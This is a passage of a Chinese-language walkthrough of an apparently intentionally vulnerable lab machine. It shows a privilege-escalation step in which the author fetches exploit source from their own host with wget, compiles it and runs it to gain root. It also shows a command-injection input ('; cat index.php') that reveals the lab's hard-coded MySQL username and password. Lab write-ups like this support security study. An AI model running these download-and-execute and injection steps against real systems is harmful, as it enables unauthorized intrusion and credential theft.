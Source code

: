 查看提权文件  

http://192.168.142.129/escpriv.c  

![file](http://ozpdcy1zs.bkt.clouddn.com/f1eb102da9f9b29219feddca67cb3b55.png-quanzi)  

![file](http://ozpdcy1zs.bkt.clouddn.com/b7fd5b7c2bb2bfe244bd27d36a878016.png-quanzi)  

在之前的shell执行命令  

```
cd /tmp
wget 192.168.142.129/escpriv.c
gcc escpriv.c -o rootMe
./rootMe
```

![file](http://ozpdcy1zs.bkt.clouddn.com/73003342abcd8eeee243084e05bc144a.png-quanzi)  

提权成功。  

## 其他漏洞 ##  

敏感信息泄漏  

查看index.php源码  

```
; cat index.php
```

![file](http://ozpdcy1zs.bkt.clouddn.com/4b118a7cd4bd6464c274483ec8a1a8d9.png-quanzi)  

![file](http://ozpdcy1zs.bkt.clouddn.com/40a0023df71bfe401cfc9bf2e4686b69.png-quanzi)  

![file](http://ozpdcy1zs.bkt.clouddn.com/64edaa2626a0967632ca603777330203.png-quanzi)  

```
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
```

其他漏洞自己玩吧。  

![file](http://ozpdcy1zs.bkt.clouddn.com/13b146ba5092060a35cd2f1062fbf98f.png-quanzi)